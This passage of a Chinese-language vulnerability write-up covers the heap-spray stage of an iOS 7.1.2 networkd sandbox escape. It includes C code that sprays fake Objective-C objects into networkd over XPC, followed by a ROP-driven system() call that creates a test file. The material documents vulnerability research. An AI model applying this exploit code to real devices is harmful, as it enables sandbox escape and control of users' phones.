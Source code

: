 0x04 堆喷(Heap Spray)
=====

虽然我们可以利用一个伪造的Objective-C对象来控制networkd。但是我们需要将这个对象保存在networkd的内存空间中才行，并且因为ASLR（地址随机化）的原因，我们就算能把伪造的对象传输过去，也很难计算出这个对象在内存中的具体位置。那么应该怎么做呢？方法就是堆喷(Heap Spray)。虽然ASLR意味着每次启动服务，program image，library，堆和栈等都是随机。但实际上这个随机并不是完全的随机，只是在某个地址范围内的随机罢了。因此我们可以利用堆喷在内存中喷出一部分空间(尽可能的大，为了能覆盖到随机地址的范围)，然后在里面填充n个fake Object就可以了。

![p7](http://drops.javaweb.org/uploads/images/5b1d1253eaf7430f58891002ff82786568965f94.jpg)

我进行漏洞测试的环境是，iPhone4s (arm 32位) 7.1.2，我们选择了0x1fec000这个地址，因为经过多次堆喷测试，这个地址可以达到将近100%的喷中率。堆喷的代码如下：

```
void* heap_spray_target_addr = (void*)0x1fec000;

struct heap_spray* hs = mmap(heap_spray_target_addr, 0x1000, 3, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
memset(hs, 0x00, 0x1000);

size_t heap_spray_pages = 0x2000;
size_t heap_spray_bytes = heap_spray_pages * 0x1000;
char* heap_spray_copies = malloc(heap_spray_bytes);

for (int i = 0; i < heap_spray_pages; i++){
    memcpy(heap_spray_copies+(i*0x1000), hs, 0x1000);
}

xpc_connection_t client = xpc_connection_create_mach_service("com.apple.networkd", NULL, XPC_CONNECTION_MACH_SERVICE_PRIVILEGED);

xpc_connection_set_event_handler(client, ^void(xpc_object_t response) {
    xpc_type_t t = xpc_get_type(response);
    if (t == XPC_TYPE_ERROR){
        printf("err: %s\n", xpc_dictionary_get_string(response, XPC_ERROR_KEY_DESCRIPTION));
    }
    printf("received an event\n");
    });


xpc_connection_resume(client);

xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_data(dict, "heap_spray", heap_spray_copies, heap_spray_bytes);
xpc_connection_send_message(client, dict);

```

随后我们编译执行我们的app，app会将fake ObjectiveC对象用堆喷的方式填充到networkd的内存中，随后app会触发object dereference漏洞来控制pc，随后app会利用rop执行`system("touch /tmp/iceandfire")`指令。运行完app后，我们发现在/tmp/目录下已经出现了iceandfire这个文件了，说明我们成功突破了沙盒并执行了system指令：

![p8](http://drops.javaweb.org/uploads/images/a463c29b7547b6fba97045468368793e2286de44.jpg)
